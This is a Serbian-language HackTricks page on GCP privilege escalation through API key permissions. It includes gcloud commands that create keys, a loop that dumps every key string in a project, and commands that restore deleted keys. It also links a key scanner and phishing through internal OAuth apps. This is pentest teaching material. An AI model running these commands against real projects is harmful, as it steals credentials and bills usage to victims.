# GCP - Privesc API ključevi

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## API ključevi

Sledeća dozvola je korisna za kreiranje i krađu API ključeva, ne ove iz dokumentacije: _API ključ je jednostavno šifrovani niz koji **identifikuje aplikaciju bez ikakvog principala**. Korisni su za pristupanje **javno dostupnim podacima anonimno**, i koriste se za **povezivanje** API zahteva sa vašim projektom radi kvota i **naplate**._

Dakle, sa API ključem možete naterati kompaniju da plati za vaše korišćenje API-ja, ali nećete moći da povećate privilegije.

Za više informacija o API ključevima proverite:

{% content-ref url="../gcp-services/gcp-api-keys-enum.md" %}
[gcp-api-keys-enum.md](../gcp-services/gcp-api-keys-enum.md)
{% endcontent-ref %}

Za druge načine kreiranja API ključeva proverite:

{% content-ref url="gcp-serviceusage-privesc.md" %}
[gcp-serviceusage-privesc.md](gcp-serviceusage-privesc.md)
{% endcontent-ref %}

### Brute Force pristup API ključu <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

Kako možda ne znate koje API-jevi su omogućeni u projektu ili koje su restrikcije primenjene na pronađeni API ključ, bilo bi interesantno pokrenuti alat [**https://github.com/ozguralp/gmapsapiscanner**](https://github.com/ozguralp/gmapsapiscanner) i proveriti **na šta možete pristupiti sa API ključem.**

### `apikeys.keys.create` <a href="#apikeys.keys.create" id="apikeys.keys.create"></a>

Ova dozvola omogućava **kreiranje API ključa**:
```bash
gcloud services api-keys create
Operation [operations/akmf.p7-[...]9] complete. Result: {
"@type":"type.googleapis.com/google.api.apikeys.v2.Key",
"createTime":"2022-01-26T12:23:06.281029Z",
"etag":"W/\"HOhA[...]==\"",
"keyString":"AIzaSy[...]oU",
"name":"projects/5[...]6/locations/global/keys/f707[...]e8",
"uid":"f707[...]e8",
"updateTime":"2022-01-26T12:23:06.378442Z"
}
```
Možete pronaći skriptu za automatizaciju [**kreiranja, iskorišćavanja i čišćenja ranjivog okruženja ovde**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/b-apikeys.keys.create.sh).

{% hint style="danger" %}
Imajte na umu da korisnici podrazumevano imaju dozvole za kreiranje novih projekata i dodeljuje im se uloga Vlasnik nad novim projektom. Dakle, korisnik može **kreirati projekat i API ključ unutar tog projekta**.
{% endhint %}

### `apikeys.keys.getKeyString` , `apikeys.keys.list` <a href="#apikeys.keys.getkeystringapikeys.keys.list" id="apikeys.keys.getkeystringapikeys.keys.list"></a>

Ove dozvole omogućavaju **listanje i dobijanje svih API ključeva i dobijanje ključa**:
```bash
for  key  in  $(gcloud services api-keys list --uri); do
gcloud services api-keys get-key-string "$key"
done
```
Možete pronaći skriptu za automatizaciju [**kreiranja, iskorišćavanja i čišćenja ranjivog okruženja ovde**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/c-apikeys.keys.getKeyString.sh).

### `apikeys.keys.undelete` , `apikeys.keys.list` <a href="#serviceusage.apikeys.regenerateapikeys.keys.list" id="serviceusage.apikeys.regenerateapikeys.keys.list"></a>

Ove dozvole vam omogućavaju da **prikazujete i obnavljate obrisane API ključeve**. API ključ se dobija kao izlaz nakon što se izvrši **undelete** operacija:
```bash
gcloud services api-keys list --show-deleted
gcloud services api-keys undelete <key-uid>
```
### Kreiranje interne OAuth aplikacije za ribarenje drugih radnika

Proverite sledeću stranicu da biste saznali kako to uraditi, iako ova radnja pripada usluzi **`clientauthconfig`** [prema dokumentaciji](https://cloud.google.com/iap/docs/programmatic-oauth-clients#before-you-begin):

{% content-ref url="../../workspace-security/gws-google-platforms-phishing/" %}
[gws-google-platforms-phishing](../../workspace-security/gws-google-platforms-phishing/)
{% endcontent-ref %}

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
